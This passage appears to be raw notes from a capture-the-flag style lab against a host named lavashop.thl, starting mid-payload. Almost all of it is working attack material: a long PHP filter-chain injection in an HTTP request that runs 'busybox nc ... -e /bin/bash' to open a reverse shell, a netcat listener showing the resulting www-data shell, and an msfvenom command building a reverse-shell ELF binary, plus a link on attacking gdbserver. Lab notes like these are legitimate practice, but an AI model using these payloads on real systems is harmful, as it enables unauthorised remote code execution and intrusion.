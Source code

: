 ncode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&x=busybox%20nc%20192.168.56.7%201234%20-e%20/bin/bash HTTP/1.1
Host: lavashop.thl
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lavashop.thl/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive





┌──(kali㉿kali)-[~/Documents/lavashop]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
whoami
connect to [192.168.56.7] from (UNKNOWN) [192.168.56.8] 56346
www-data



====================================================================================================================================================================

https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-remote-gdbserver.html?highlight=gdbserver#pentesting-remote-gdbserver







msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.7 LPORT=4444 PrependFork=true -f elf -o binary.elf



chmod +x binary.elf
